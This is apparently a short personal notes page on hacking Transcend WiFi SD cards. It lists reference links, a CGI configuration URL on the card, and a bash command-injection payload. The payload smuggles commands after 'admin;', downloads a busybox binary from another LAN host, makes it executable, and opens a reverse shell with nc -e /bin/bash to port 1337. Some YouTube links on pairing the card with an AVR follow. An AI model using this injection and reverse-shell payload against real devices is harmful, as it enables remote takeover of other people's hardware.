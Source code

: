 ```yaml
---
title: Transcend WiFi SD
---
```


* http://haxit.blogspot.ch/2013/08/hacking-transcend-wifi-sd-cards.html
* http://192.168.11.254/cgi-bin/kcard_edit_config_insup.pl
* http://dmitry.gr/index.php?r=05.Projects&proj=15.%20Transcend%20WiFiSD

```bash
admin; wget http://192.168.11.11/busybox-armv5l; chmod a+x /www/cgi-bin/busybox-armv5l; /www/cgi-bin/busybox-armv5l nc 192.168.11.11 1337 -e /bin/bash #
```

==Transcend WiFi in combi met AVR==
* https://www.youtube.com/watch?annotation_id=annotation_1323056153&feature=iv&src_vid=HT4W3CPlnAU&v=-Z9TrZQw16s
* https://www.youtube.com/watch?v=HT4W3CPlnAU
